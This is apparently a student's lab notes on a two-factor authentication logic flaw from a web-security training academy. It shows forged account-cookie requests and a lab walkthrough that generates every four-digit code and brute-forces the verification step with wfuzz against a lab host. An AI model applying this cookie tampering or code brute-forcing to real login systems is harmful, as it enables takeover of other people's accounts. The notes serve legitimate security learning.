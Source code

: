 They are then assigned a cookie that relates to their account, before being taken to the second step of the login process:

```
HTTP/1.1 200 OK
Set-Cookie: account=carlos

GET /login-steps/second HTTP/1.1
Cookie: account=carlos
```

When submitting the verification code, the request uses this cookie to determine which account the user is trying to access:

```
POST /login-steps/second HTTP/1.1
Host: vulnerable-website.com
Cookie: account=carlos
...
verification-code=123456
```

In this case, an attacker could log in using their own credentials but then change the value of the account cookie to any arbitrary username when submitting the verification code.

```
POST /login-steps/second HTTP/1.1
Host: vulnerable-website.com
Cookie: account=victim-user
...
verification-code=123456
```

This is extremely dangerous if the attacker is then able to brute-force the verification code as it would allow them to log in to arbitrary users' accounts based entirely on their username. They would never even need to know the user's password.

#### LAB

![](gitbook/cybersecurity/images/Pasted%252520image%25252020240926164118.png)

We need to send the login2 request to repeater and send the verify option for carlos username, this ensures that a code for the username `carlos` is being sent:


![](gitbook/cybersecurity/images/Pasted%252520image%25252020240926164910.png)


Once we've sent the request, we need to brute force the security code, for this, i used the following:

` for i in {0000..9999}; do echo $i; done > 2facodes.txt` -> To generate numbers from 0000 to 9999 and save it in a file


`wfuzz -c -w 2facodes.txt -d "mfa-code=FUZZ" -u "https://0ac5006403c51099804b719200ce0076.web-security-academy.net/login2" -b "session=YaWIHMFv6VqOgd2RPzQAFvcp93RwZ7IU; verify=carlos" --hc 200
